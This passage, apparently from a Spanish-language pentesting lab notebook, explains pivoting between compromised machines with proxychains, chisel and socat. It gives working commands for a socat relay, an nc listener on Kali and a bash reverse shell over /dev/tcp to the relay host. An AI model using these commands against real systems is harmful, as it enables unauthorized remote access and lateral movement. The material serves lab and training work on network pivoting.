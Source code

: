 Igual que otras herramientas como nmap, entre otras. El túnel está en proxychains, sino no funciona.

Desde máquina 2, no puede hacer nada hacia kali, es porque hay que ejecutar socat en máquina 1.

Ahora desde máquina 1, sin cerrar el otro túnel, hay que descargar socat para poder hacer una reverse shell.

Desde kali vamos a:

https://github.com/andrew-d/static-binaries

Pulsamos en Raw y se descarga.

Abrimos un server python y lo descargamos en máquina 1.

Ahora en máquina 1:

```
./socat tcp-l:1111,fork,reuseaddr tcp:<IPkali>:<puertoQueQuiera>
```

Así la revshell que reciba por el puerto 1111 (por ejemplo), lo envíe a la atacante por el que elija (por ejemplo 111).

En el ejemplo:

```
./socat tcp-l:1111,fork,reuseaddr tcp:<IPkali>:111
```

En kali:

```
nc -nlvp <puertoQueHayaELegidoEnKali>
```

En el ejemplo:

```
nc -nlvp 111
```

Ahora en máquina 2:

```
sh -i >& /dev/tcp/<IPmaquina1QueTengaconexionconmaquina2>/<puertoQueHayaELegidoEnKali> 0>&1
```

En el ejemplo:

```
sh -i >& /dev/tcp/20.20.20.13/1111 0>&1
```

Y así se recibe la conexión desde máquina 2, a través de máquina 1, en kali.

Chisel es para el port forwarding y socat para la revshell.

Y ahora para la máquina 3 hay que hacer lo mismo. Habría que poner chisel en máquina 2 y un port fowarding desde la 3 a kali.


## Metasploit
